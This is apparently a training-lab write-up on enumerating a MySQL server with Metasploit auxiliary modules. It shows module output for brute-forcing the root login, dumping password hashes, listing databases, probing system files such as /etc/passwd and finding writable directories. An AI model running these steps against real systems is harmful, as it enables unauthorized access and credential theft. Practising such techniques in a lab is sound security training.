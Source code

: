# MySQL Enumeration

### Objective: Your task is to run the following auxiliary modules against the target:

**auxiliary/scanner/mysql/mysql_version**
```bash
[+] 192.190.19.3:3306 - 192.190.19.3:3306 is running MySQL 5.5.61-0ubuntu0.14.04.1 (protocol 10)
[*] demo.ine.local:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**auxiliary/scanner/mysql/mysql_login**
```bash
set PASS_FILE ~~unix_passwords.txt

# Output
[+] 192.190.19.3:3306     - 192.190.19.3:3306 - Success: 'root:twinkle'
```

**auxiliary/admin/mysql/mysql_enum**
```bash
# Set password and username found with previous module

~~~
[+] 192.190.19.3:3306 -                 User: root Host: localhost Password Hash: 
~~~
```

**auxiliary/admin/mysql/mysql_sql**
```bash
# This module allows for simple SQL statements to be executed against a MySQL instance given the appropriate credentials
# set password and username here too

[*] 192.190.19.3:3306 - Sending statement: 'select version()'...
[*] 192.190.19.3:3306 -  | 5.5.61-0ubuntu0.14.04.1 |
[*] Auxiliary module execution completed

# Change SQL section to show available databases
*] 192.190.19.3:3306 - Sending statement: 'show databases;'...
[*] 192.190.19.3:3306 -  | information_schema |
[*] 192.190.19.3:3306 -  | mysql |
[*] 192.190.19.3:3306 -  | performance_schema |
[*] 192.190.19.3:3306 -  | upload |
[*] 192.190.19.3:3306 -  | vendors |
[*] 192.190.19.3:3306 -  | videos |
[*] 192.190.19.3:3306 -  | warehouse |
[*] Auxiliary module execution completed
```

**auxiliary/scanner/mysql/mysql_schemadump**
```bash
# set username and password

- DBName: upload
  Tables: []
- DBName: vendors
  Tables: []
- DBName: videos
  Tables: []
- DBName: warehouse
  Tables: []

# Commands listed below are available
hosts
services
loot
creds
```

**auxiliary/scanner/mysql/mysql_file_enum**
```bash
# set FILE_LIST -> /usr/share/metasploit-framework/data/wordlists/directory.txt

# Output
[+] 192.190.19.3:3306 - /tmp is a directory and exists
[+] 192.190.19.3:3306 - /etc/passwd is a file and exists
[+] 192.190.19.3:3306 - /root is a directory and exists
~~~
```

**auxiliary/scanner/mysql/mysql_hashdump**
```bash
# This module extracts the usernames and encrypted password hashes from a MySQL server and stores them for later cracking
[+] 192.190.19.3:3306 - Saving HashString as Loot: root:*A0E23B565BACCE3E70D223915ABF2554B2540144
[+] 192.190.19.3:3306 - Saving HashString as Loot: root:
[+] 192.190.19.3:3306 - Saving HashString as Loot: root:
~~~
```

**auxiliary/scanner/mysql/mysql_writable_dirs**
```bash
# Enumerate writeable directories using the MySQL SELECT INTO DUMPFILE feature, for more information see the URL in the references
[*] 192.190.19.3:3306 - Login...
[*] 192.190.19.3:3306 - Checking /tmp...
[+] 192.190.19.3:3306 - /tmp is writeable
~~~
```